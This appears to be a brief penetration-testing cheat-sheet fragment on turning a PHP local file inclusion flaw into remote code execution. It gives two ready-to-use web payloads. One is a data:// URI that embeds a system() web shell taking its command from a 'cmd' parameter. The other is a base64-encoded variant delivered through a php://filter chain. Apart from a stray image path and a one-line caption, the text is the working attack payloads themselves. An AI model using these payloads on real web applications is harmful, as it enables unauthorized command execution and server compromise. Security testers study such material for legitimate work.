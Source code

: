 ***

Simple case in which LFI can be leveraged for RCE
```
http://example/file.php?page=data://plain/text,<?php system($_GET['cmd']); ?><&cmd=id
```
Also you can test base64 encoding
```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=id
```